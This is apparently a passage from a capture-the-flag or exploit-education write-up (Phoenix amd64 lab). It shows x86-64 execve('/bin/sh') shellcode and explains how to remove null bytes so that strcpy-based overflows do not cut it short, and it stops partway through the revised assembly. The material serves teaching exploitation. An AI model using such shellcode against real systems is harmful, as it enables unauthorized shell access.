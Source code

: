 ```console
pwned!
```
🥳

## Bonus
### Extra-Shellcoding
This is our shellcode,
```console
user@phoenix-amd64:~$ objdump -d -M intel test.o

test.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <_start>:
   0:   55                      push   rbp
   1:   48 89 e5                mov    rbp,rsp
   4:   48 83 ec 10             sub    rsp,0x10
   8:   48 bf 2f 62 69 6e 2f    movabs rdi,0x68732f6e69622f
   f:   73 68 00
  12:   48 89 7c 24 f8          mov    QWORD PTR [rsp-0x8],rdi
  17:   48 8d 7c 24 f8          lea    rdi,[rsp-0x8]
  1c:   be 00 00 00 00          mov    esi,0x0
  21:   ba 00 00 00 00          mov    edx,0x0
  26:   b8 3b 00 00 00          mov    eax,0x3b
  2b:   0f 05                   syscall
```

It runs fine because `gets()` does not stop reading characters when faced with a null terminator (`0x00`), string functions like `strcpy()` will terminate and cut our shellcode middle-way.
```asm
...
   8:   48 bf 2f 62 69 6e 2f    movabs rdi,0x68732f6e69622f
   f:   73 68 00
...
  1c:   be 00 00 00 00          mov    esi,0x0
  21:   ba 00 00 00 00          mov    edx,0x0
  26:   b8 3b 00 00 00          mov    eax,0x3b
...
```

Let's optimize the problematic lines to avoid `0x00` bytes in our resulting instructions.

1. Instead of `mov <register>, 0` use `xor <register>, <register>`
2. Instead of moving `0x3b` to `eax`, move it to `al` (lowest 16 bits of `rax`)
3. `rdi` is 8 bytes, `/bin/sh` is 8 bytes including terminating null byte. Write 8 printable bytes (e.g. `./bin/sh`) and shift the register by 1 byte to replace the leading character with a following null byte.
```asm
global _start

section .text
_start:
; create a new stack frame
push rbp
mov rbp, rsp
sub rsp, 0x10

; arguments for execve
mov rdi, "./bin/sh"
shr rdi, 0x8
mov QWORD [rsp-0x8], rdi
lea rdi, [rsp-0x8]
```